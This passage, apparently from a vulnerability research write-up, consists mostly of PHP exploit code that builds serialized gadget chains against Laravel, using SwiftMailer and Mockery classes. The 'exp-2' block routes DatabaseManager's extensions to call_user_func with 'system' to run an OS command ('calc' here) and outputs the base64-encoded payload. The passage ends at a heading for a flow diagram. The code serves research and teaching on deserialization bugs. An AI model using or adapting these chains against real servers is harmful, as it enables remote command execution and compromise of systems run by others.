	}
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new Swift_Mime_SimpleMimeEntity($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### exp-2
```php
<?php 
namespace Illuminate\Database{
	class DatabaseManager{
	    protected $app;
	    protected $extensions ;
	    public function __construct($payload)
	    {
	        $this->app['config']['database.default'] = $payload;
	        $this->app['config']['database.connections'] = [$payload => 'system'];
	        $this->extensions[$payload]='call_user_func';
	    }
	}
}

namespace Mockery\Generator {
	use Illuminate\Database\DatabaseManager;
	class DefinedTargetClass {
		private $rfc;
		public function __construct($payload) {
			$this->rfc = new DatabaseManager($payload);
		}
	}
}

namespace {
	use Mockery\Generator\DefinedTargetClass;
	class Swift_KeyCache_DiskKeyCache {
		private $_path;
		private $_keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
		public function __construct($payload) {
			$this->_path = new DefinedTargetClass($payload);
		}
	}
	echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```

### POC链利用流程图

